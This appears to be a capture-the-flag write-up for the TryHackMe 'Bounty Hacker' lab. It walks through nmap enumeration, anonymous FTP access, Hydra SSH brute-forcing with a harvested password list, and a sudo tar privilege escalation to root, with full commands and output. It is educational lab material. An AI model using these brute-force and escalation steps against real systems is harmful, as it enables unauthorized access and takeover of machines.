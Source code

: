 ```yaml
---
title:  "TryHackMe - Bounty Hacker writeup"
header:
  teaser: "/assets/images/THM_logo.jpg"
categories: 
  - TryHackMe
tags:
  - writeups
---
```


Bounty Hacker is an easy boot-to-root machine to get started. Definitely goes to starter pack on TryHackMe.

[Bounty Hacker on TryHackMe](https://tryhackme.com/room/cowboyhacker)

<figure>
	<a href="/assets/images/BountyHacker/bh_main.jpg"><img src="/assets/images/BountyHacker/bh_main.jpg"></a>
</figure>

*NOTE: All passwords listed there are fake. Run listed commands to find real ones*

Here goes!

## Enumeration

### Nmap
Starting with `nmap` to determine what ports are open and what services are running.

Meaning of used options can be seen in my previous THM writeups or in `nmap --help`
  
Full command and result of scanning: 
{% highlight console %}
m0rn1ngstr@kali:~/THM/BountyHacker$ sudo nmap -T4 -p- -A 10.10.238.239
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-04 06:56 EDT
Nmap scan report for 10.10.238.239
Host is up (0.14s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.57.246
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Infomir MAG-250 set-top box (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Ubiquiti AirOS 5.5.9 (90%), Linux 2.6.32 - 3.13 (89%), Linux 3.3 (89%), Linux 2.6.32 - 3.1 (89%), Linux 3.7 (89%), Netgear RAIDiator 4.2.21 (Linux 2.6.37) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

m0rn1ngstr@kali:~/THM/BountyHacker$

{% endhighlight %}

After reviewing the results of `nmap` scan we can point out some useful findings:

1. anonymous access to `FTP` on port 21
2. `HTTP page` and `Apache 2.4.18` server on port 80
3. `SSH` on port 22

### HTTP
After accessing this page in browser we saw this:

<figure>
	<a href="/assets/images/BountyHacker/site.jpg"><img src="/assets/images/BountyHacker/site.jpg"></a>
</figure>

This page is useful story-wise, but there is nothing really that we can use later, except for some names as possible `usernames`.

`Dirbuster` also resulted in nothing.

### FTP
Nmap scan showed us that `Anonymous FTP login allowed`, so why not use it.

{% highlight console %}
m0rn1ngstr@kali:~/THM/BountyHacker$ ftp 10.10.238.239
Connected to 10.10.238.239.
220 (vsFTPd 3.0.3)
Name (10.10.238.239:m0rn1ngstr): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (514.7772 kB/s)
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.03 secs (14.6399 kB/s)
ftp> exit
221 Goodbye.

{% endhighlight %}

We logged in `ftp`, found two files, let's check them out:

{% highlight console %}
m0rn1ngstr@kali:~/THM/BountyHacker$ cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e

m0rn1ngstr@kali:~/THM/BountyHacker$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin


{% endhighlight %}

Now we have a list of potential passwords and addition to possible usernames.
{% highlight console %}
m0rn1ngstr@kali:~/THM/BountyHacker$ cat users.txt 
vicious
lin
redeye
spike
jet
ed
faye
user
root
{% endhighlight %}

*Side-note: I am not familiar with "Cowboy Bebop" fandom, so the user list is created only based on names I came across during the walkthrough. I am sure that it can be filtered more.*

## Gaining Shell and User flag

### HYDRA

Now we can `brute-force` our way in using `Hydra` for `ssh`.

Again, the meaning of options can be found in my previous writeups or in `hydra --help`

{% highlight console %}
m0rn1ngstr@kali:~/THM/BountyHacker$ hydra -t 4 -L users.txt -P locks.txt ssh://10.10.238.239
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-04 07:17:24
[DATA] max 4 tasks per 1 server, overall 4 tasks, 208 login tries (l:8/p:26), ~52 tries per task
[DATA] attacking ssh://10.10.238.239:22/
[STATUS] 33.00 tries/min, 33 tries in 00:01h, 175 to do in 00:06h, 4 active
[22][ssh] host: 10.10.238.239   login: lin   password: [some pass]

{% endhighlight %}

Now we got credentials and can log in `ssh` and read `user.txt`

### SSH

{% highlight console %}
m0rn1ngstr@kali:~/THM/BountyHacker$ ssh lin@10.10.238.239
The authenticity of host '10.10.238.239 (10.10.238.239)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.238.239' (ECDSA) to the list of known hosts.
lin@10.10.238.239's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{fake user flag}
lin@bountyhacker:~/Desktop$

{% endhighlight %}

## Privilege escalation and Root flag
Let's check which command can `Lin` run with `sudo`
{% highlight console %}
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

{% endhighlight %}

We can escalate privileges with `tar` using [gtfobins](https://gtfobins.github.io/gtfobins/tar/)
{% highlight console %}
lin@bountyhacker:~/Desktop$ sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
/bin/tar: Removing leading `/' from member names
root@bountyhacker:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls
root.txt
root@bountyhacker:/root# cat root.txt 
THM{fake root flag}
root@bountyhacker:/root#

{% endhighlight %}

### That's it for this machine. Stay safe and Happy Hacking!
